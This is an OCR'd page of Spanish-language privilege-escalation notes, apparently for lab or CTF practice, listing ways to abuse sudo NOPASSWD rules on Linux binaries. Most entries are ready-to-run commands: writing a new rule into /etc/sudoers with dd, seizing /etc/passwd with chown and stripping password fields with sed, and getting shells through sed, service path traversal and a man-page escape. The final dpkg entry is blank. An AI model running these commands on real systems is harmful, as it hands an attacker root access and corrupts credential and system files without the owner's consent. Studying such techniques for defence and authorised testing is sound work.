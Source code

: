 -------------------------------------------------------------------------------
19.-	/bin/dd

User "usuario_en_sesion may run the following commands on 101e4b7e294b:
    (ALL) NOPASSWD: /bin/dd
    
    
LFILE=/etc/sudoers
echo "usuario_en_sesion ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE

Una vez hecho esto ya tendremos permisos root para todos los comandos, y solo escalamos ejecutando sudo su y poniendo la contraseña de del usuario_en_sesión.

-------------------------------------------------------------------------------20.-	/usr/bin/chown

User elite may run the following commands on ac078a14e272:
    (root) NOPASSWD: /usr/bin/chown

sudo chown elite:elite /etc

sudo chown username:username /etc

sudo /usr/bin/chown elite:elite /etc/passwd

ls -l / -> para ver si cambiamos de propietario en el etc

sed 's/x//g' /etc/passwd
sed -i 's/x//g' /etc/passwd

luego su root y sin escribir contraseña somos root

-------------------------------------------------------------------------------21.-	/bin/sed

(andy) NOPASSWD: /bin/sed

sudo -u andy /bin/sed -n '1e exec sh 1>&0' /etc/hosts


-------------------------------------------------------------------------------
22.- 	/usr/sbin/service


User www-data may run the following commands on 085b05b2ee08:
    (ALL) NOPASSWD: /usr/sbin/service

sudo /usr/sbin/service ../../bin/sh


-------------------------------------------------------------------------------
23.-	/usr/bin/man

forma de cambiar a usuario pingu:

sudo -u pingu /usr/bin/man find, se nos abre un menú interactivo y en la línea donde dice --More--, reemplazamos por:

!/bin/bash y listo somo el usuario pingu:

-------------------------------------------------------------------------------
23.-	/usr/bin/dpkg


